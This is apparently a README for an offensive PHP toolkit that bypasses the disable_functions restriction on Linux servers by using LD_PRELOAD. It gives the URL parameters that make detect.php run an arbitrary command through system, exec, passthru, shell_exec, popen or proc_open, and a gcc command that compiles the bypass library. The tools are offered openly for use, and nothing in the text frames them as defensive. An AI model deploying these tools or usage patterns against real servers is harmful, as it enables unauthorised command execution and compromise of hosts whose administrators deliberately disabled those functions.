 # LD_PRELOAD.php

One PHP file bypass disable_functions with LD_PRELOAD.  
Only support Linux.

CODE: [https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)  
Paper: [https://www.freebuf.com/web/192052.html](https://www.freebuf.com/web/192052.html)


# detect.php

Try to bypass disable_functions.

Detect disable_functions:
```
http://url/detect.php?action=test
```

Run COMMAND with specified function:
```
http://url/detect.php?action=[system|exec|passthru|shell_exec|popen|proc_open|ws|sa]&cmd=COMMAND
```


# bypass_disablefunc.c

```
gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc_x64.so
```


